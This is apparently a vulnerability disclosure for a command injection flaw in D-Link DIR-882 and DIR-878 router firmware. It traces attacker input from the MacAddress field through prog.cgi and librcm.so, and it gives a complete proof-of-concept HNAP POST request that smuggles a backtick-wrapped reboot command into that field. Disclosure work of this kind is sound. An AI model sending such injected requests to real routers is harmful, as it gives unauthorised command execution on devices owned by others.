 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetMACFilters2` function,`MacAddress` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `librcm.so` binary:

In `MACFILTER_run` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## PoC

We set `MacAddress` as **`         reboot`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 630
SOAPAction: "http://purenetworks.com/HNAP1/SetMACFilters2"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 09534AE66CDE877C75A81A3C192E9762 1727333568750
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=LPLnELLQ
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMACFilters2 xmlns="http://purenetworks.com/HNAP1/"><Enabled>true</Enabled>
      <IsAllowList>false</IsAllowList>
      <MACList>
        <MACInfo>
          <MacAddress>`         reboot`</MacAddress>
          <DeviceName>pjqwudi</DeviceName>
          <ScheduleName>Always</ScheduleName>
          <Status>1</Status>
        </MACInfo>
      </MACList></SetMACFilters2></soap:Body></soap:Envelope>
```



## Result

The router will reboot.
